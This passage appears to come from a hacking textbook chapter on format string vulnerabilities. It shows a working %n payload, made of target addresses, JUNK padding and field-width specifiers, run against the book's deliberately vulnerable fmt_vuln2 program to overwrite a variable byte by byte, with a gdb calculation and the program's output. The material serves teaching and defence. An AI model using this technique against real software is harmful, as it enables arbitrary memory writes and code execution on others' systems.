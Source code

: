 What happened here? The difference between _0x06_ and _0x08_ is only _two_, but _eight_ bytes are output, resulting in the byte _0x0e_ being written by the __%n__ format parameter, instead. This is because the field width option for the __%x__ format parameter is only a _minimum_ field width, and _eight_ bytes of data were output. This problem can be alleviated by simply wrapping around again; however, it’s good to know the limitations of the field width option.

<pre style="color: white;">
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0x108 - 0x06"
$1 = 258
reader@hacking:~/booksrc $ ./fmt_vuln2 $(printf "\xf4\x97\x04\x08JUNK\xf5\x97\x04\x08JUNK\xf6\
x97\x04\x08JUNK\xf7\x97\x04\x08")%x%x%161x%n%222x%n%91x%n%258x%n
The right way to print user-controlled input:
??JUNK??JUNK??JUNK??%x%x%161x%n%222x%n%91x%n%258x%n
The wrong way to print user-controlled input:
??JUNK??JUNK??JUNK??bffff3a0b7fe75fc
0
4b4e554a
4b4e554a
4b4e554a
[*] test_val @ 0x080497f4 = 134654925 0x0806abcd
[*] next_val @ 0x080497f8 = 285212675 0x11000003
reader@hacking:~/booksrc $
</pre>

Just like before, the appropriate addresses and junk data are put in the beginning of the format string, and the least significant byte is controlled for four write operations to overwrite all four bytes of the variable __test_val__. Any value subtractions to the least significant byte can be accomplished by wrapping the byte around. Also, any additions less than eight may need to be wrapped around in a similar fashion.